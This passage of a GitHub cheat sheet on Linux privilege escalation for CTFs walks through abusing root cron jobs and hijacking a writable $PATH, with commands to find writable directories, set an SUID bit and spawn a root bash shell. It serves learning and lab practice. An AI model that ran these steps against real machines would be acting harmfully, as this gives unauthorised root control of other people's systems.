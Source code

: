 ```
/etc/crontab
```

![crontab](https://user-images.githubusercontent.com/85082756/149584453-8eb5218b-749f-4eb2-8a52-3095c487a39e.png)

  - If you find any jobs then u can edit that file to gain the root access MAKE SURE THEY ARE UNDER `root`
    - or created one on the same directory if not present or deleted
  - You can use the reverse shell to get the access CHECK THE JOB RUN TIME
    - in most of the CTFs they run every minute or 5
  
<hr style="width:100%;text-align:left;margin-center:0">

## Using $PATH
  - list the PATH by ``echo $PATH``
  
  - Check if the current folder in $PATH is writable 👇
  
  - find for writable path ``find / -writable 2>/dev/null`` or clean the out put using -> `` find / -writable 2>/dev/null | cut -d "/" -f2 | sort -u ``

![writable](https://user-images.githubusercontent.com/85082756/149846878-6f3c25b7-c37e-4756-8910-5e39640ce52d.png)



  - To find the folder under the writable path use ``find / -writable 2>/dev/null | grep {DIR} | cut -d "/" -f 2,3,4 | sort -u`` (change the {DIR})

  - Check if the current user can modify the path
  
  - If you can then add the following folder in $PATH which is writable in most of the cases it is ``/tmp``

  - If able to modify the $PATH then ``export PATH=/{DIR}:$PATH`` (make sure to change the {DIR})

  - Now we have the required directory listed in out $PATH then we can just create a Script to exploit it 

  - Go to any writable folder and make a script using nano

  - script  example 👉🏻 [path.c](https://github.com/Somchandra17/Privilege-Escalation-For-Linux/blob/main/path.c)
  - Now compile it using gcc ``gcc path.c -o shell``. 

  - OR you can also use python3 file [path.py](https://github.com/Somchandra17/Privilege-Escalation-For-Linux/blob/main/path.py), just run it as executable``./{filename}` ❌ not as `python3 {file.py}`` ❌

  - After compiling set the SUID bit ``chmod u+s shell``

  - Now, go into the directory whichever you have added to $PATH and create a executable file ``echo "/bin/bash" > tobeX ``
  give it executable rights ``chmod 777 tobeX ``

  - Final Step ->  Just run script that we have created  ``./shell``. Boom!

> [Becoming Root Via a Misconfigured PATH](https://betterprogramming.pub/becoming-root-via-a-misconfigured-path-720a52981c93)
